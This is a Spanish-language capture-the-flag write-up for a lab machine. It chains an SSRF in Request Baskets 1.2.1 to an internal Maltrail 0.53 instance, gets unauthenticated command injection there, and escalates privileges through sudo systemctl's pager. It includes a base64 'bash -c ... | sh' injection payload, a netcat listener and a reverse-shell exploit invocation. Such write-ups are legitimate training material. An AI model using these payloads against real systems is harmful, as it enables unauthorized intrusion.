






<link rel="stylesheet" href="../../../../../styles/tooltip.css">


En esta máquina nos encontramos con un [SSRF](# "Server-Side Request Forgery: Es una vulnerabilidad de seguridad que permite a un atacante manipular un servidor para que realice solicitudes no deseadas a recursos internos o externos."), el cual nos lleva a un log que usa **Maltrail**, vulnerable a RCE. La escalada de privilegios fue sencilla, jugando con el size. Pese a que usamos solo Pocs tambien analizaremos por que suceden y como funcionan por detras :)

## Enumeración

Hacemos nuestra enumeración con **nmap** como de costumbre, esto nos listará solo dos puertos: el 22 (SSH) y el 55555 ([Request Baskets](# "Servicio que genera un endpoint temporal para recibir y visualizar solicitudes HTTP, usado para probar y depurar webhooks o integraciones.")).  
Aplicando scripts básicos no me reporta absolutamente nada. Entendiendo lo que es un Request Baskets, no intenté enumerar subdominios ni rutas comunes.



## Reconocimiento

Investigando un poco la página, me doy cuenta de que en el *footer* aparece la versión del Request Baskets desactualizada (1.2.1). Buscando vulnerabilidades encontré el [CVE-2023-27163](# "Esta vulnerabilidad permite a los atacantes acceder a recursos de red e información confidencial a través de una solicitud API diseñada específicamente.").  
Para probarlo intenté ver si cargaba alguna página mía.

- Creo un archivo _index.html_ con cualquier contenido: **_Esto es una prueba :)_**
- Montamos nuestro servidor con Python en el puerto 80:

```
python3 -m http.server 80
```

- Y en la configuración del basket ponemos en el **Forward URL** el nuestro. Veremos si hay actividad o carga nuestra página. 



- Efectivamente carga nuestra página.



- Ahora que sabemos que es vulnerable a [SSRF](# "Server-Side Request Forgery: Es una vulnerabilidad de seguridad que permite a un atacante manipular un servidor para que realice solicitudes no deseadas a recursos internos o externos."), intentamos listar algunos puertos comunes. En este caso el 80. Esto nos redirigirá a una pantalla de carga de [Maltrail](# "Sistema de código abierto para la detección de tráfico de red malicioso que utiliza listas de rastros sospechosos (dominios, IPs, URLs) de fuentes públicas, informes de antivirus y listas personalizadas para identificar y alertar sobre posibles amenazas como malware o intrusiones.").



## Explotación

Dentro de la pantalla de log de [Maltrail](# "Sistema de código abierto para la detección de tráfico de red malicioso que utiliza listas de rastros sospechosos (dominios, IPs, URLs) de fuentes públicas, informes de antivirus y listas personalizadas para identificar y alertar sobre posibles amenazas como malware o intrusiones.") vemos que está filtrada la versión **0.53**.  
Encontramos un POC para la [CVE-2023–27163](https://github.com/spookier/Maltrail-v0.53-Exploit). Me pareció muy interesante cómo desde una pantalla de log se podía lograr un [RCE](# "Remote Code Execution").  

Este [artículo en Medium](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5) explica que Maltrail no valida correctamente la entrada, lo que permite inyectar código encodeado en base64:

```bash
; bash -c 'echo <payload_base64> | base64 -d | sh' ;
```



###### Para ejecutar el POC.

- Te pones en escucha con nc 

```
nc -nlvp port
```
- Editas bien tu POC y obtendrás tu reverse shell.
```
python3 exploit.py <VPN-IP> <PORT> http://URL/test
```

Ganaremos acceso como el usuario puma, y obtendremos la primera flag.

### Escalando privilegios

Esta escalada de privilegios fue muy sencilla, me recordó a un nivel de [OverTheWire](https://overthewire.org/wargames/) en el que se jugaba con el tamaño de la terminal, permitiendo ejecutar un comando (en este caso `systemctl`) y entrar en modo paginador.

- Saneamos nuestra terminal para poder ejecutar comandos con tranquilidad.
- Hacemos sudo -l 

```
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
<span style="font-size:12px">_Podemos usar el comando **_sudo /usr/bin/systemctl status trail.service_** sin validar la contraseña_</span>



#### Reflexión 

Esta máquina me gustó bastante. El jugar con el login usándolo como punto vulnerable fue lo que más me sorprendió. La escalada de privilegios fue sencilla, pero en general una buena máquina.

# FIN
